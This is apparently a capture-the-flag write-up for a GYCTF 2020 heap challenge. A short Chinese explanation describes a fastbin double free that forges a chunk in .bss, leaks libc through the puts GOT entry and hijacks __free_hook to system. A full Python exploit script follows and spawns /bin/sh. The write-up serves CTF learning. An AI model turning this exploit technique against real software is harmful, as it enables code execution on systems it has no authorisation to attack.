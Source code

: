 ### message

利用 double free 欺骗 malloc 分配一个位于 bss 段的 chunk，使得我们可以控制全局数组，从而修改 0 号堆块的内容。然后先泄露 libc 再劫持 `__free_hook` 到 `system` 即可。需要注意 fastbin 的大小检查。

```python
def add(size,content='a'):
	sla(':','1')
	sla(':\n',str(size))
	sa(':\n',content)

def free(index):
	sla(':','2')
	sla(':\n',str(index))

def edit(index,content):
	sla(':','3')
	sla(':\n',str(index))
	sa(':\n',content)

def show(index):
	sla(':','4')
	sla(':\n',str(index))

add(0x50) # 0
add(0x40) # 1
add(0x40) # 2
free(1)
free(2)
free(1)

fake = 0x602060-0x8
add(0x40,p64(fake)) # 3 <-> 1
add(0x40) # 4 <-> 2
add(0x40) # 5 <-> 1
add(0x40,p64(elf.got['puts'])) # 6 <-> fake
show(0)
ru(':')
puts = uu64(r(6))

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
free_hook = base + libc.dump('__free_hook')

edit(6,p64(free_hook))
edit(0,p64(system))
add(0x8,'/bin/sh\x00') # 7
free(7)
```

## GYCTF 2020

